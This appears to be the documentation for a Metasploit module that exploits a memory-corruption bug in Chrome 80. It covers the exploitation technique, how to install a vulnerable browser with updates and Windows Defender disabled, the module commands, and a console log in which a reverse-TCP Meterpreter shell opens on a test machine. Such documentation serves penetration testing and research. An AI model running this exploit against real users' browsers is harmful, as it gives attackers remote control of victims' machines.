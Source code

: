 This module exploits an issue in Google Chrome 80.0.3987.87 (64 bit). The
exploit corrupts the length of a float array (float_rel), which can then be used
for out of bounds read and write on adjacent memory. The relative read and write
is then used to modify a UInt64Array (uint64_aarw) which is used for read and
writing from absolute memory. The exploit then uses WebAssembly in order to
allocate a region of RWX memory, which is then replaced with the payload
shellcode.

**The payload is executed within the sandboxed renderer process, so the browser
must be run with the --no-sandbox option for the payload to work correctly.**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (version 80), on any
platform (macOS, Linux or Windows), however the code that writes the shellcode
into the rwx region (wasm_rwx_addr) may need to be modified for different
versions.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_80.0.3987.87-24545/](https://www.filepuma.com/download/google_chrome_64bit_80.0.3987.87-24545/)

You should ensure that application does not update itself to the latest version
(by disabling automatic updates or simply not connecting to the internet). You
may also need to disable Windows Defender.

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_jscreate_sideeffect`
2. Do: `set payload windows/x64/meterpreter/reverse_tcp`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `set URIPATH / [PATH]`
6. Do: `run`

## Scenarios

### Windows 10 and Google Chrome 80.0.3987.87 with --no-sandbox

Start Google Chrome without a sandbox:

`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf5 > use exploit/multi/browser/chrome_jscreate_sideeffect
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > set URIPATH /
URIPATH => /
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/browser/chrome_jscreate_sideeffect) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.

msf5 exploit(multi/browser/chrome_jscreate_sideeffect) >
[*] 192.168.56.3     chrome_jscreate_sideeffect - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49677) at 2020-03-04 21:22:38 +0800

msf5 exploit(multi/browser/chrome_jscreate_sideeffect) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\80.0.3987.87
meterpreter >
```
